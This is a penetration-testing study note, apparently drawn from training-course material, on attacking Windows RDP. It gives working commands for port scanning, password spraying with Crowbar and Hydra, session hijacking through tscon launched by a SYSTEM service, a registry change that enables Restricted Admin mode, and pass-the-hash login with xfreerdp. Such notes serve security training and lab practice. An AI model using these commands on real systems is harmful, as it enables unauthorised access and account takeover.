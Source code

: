 TCP/3389

```shell-session
nmap -Pn -p3389 192.168.2.143 
```

## Misconfigurations

Use ***password spraying*** if password policy locks out after a number of incorrect attempts

Using the [Crowbar](https://github.com/galkan/crowbar) tool, we can perform a password spraying attack against the RDP service.

#### Crowbar - RDP Password Spraying

```shell-session
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

#### Hydra - RDP Password Spraying

```shell-session
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

#### RDP Login


```shell-session
rdesktop -u admin -p password123 192.168.2.143
```

---
## Protocol Specific Attacks

#### RDP Session Hijacking

 We need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session)

```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```cmd-session
query user
```

```cmd-session

sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

```cmd-session
net start sessionhijack
```

_Note: This method no longer works on Server 2019._

---
## RDP Pass-the-Hash (PtH)

There are a few caveats to this attack:

- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-4.png)

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:

#### Adding the DisableRestrictedAdmin Registry Key

```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```shell-session
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```



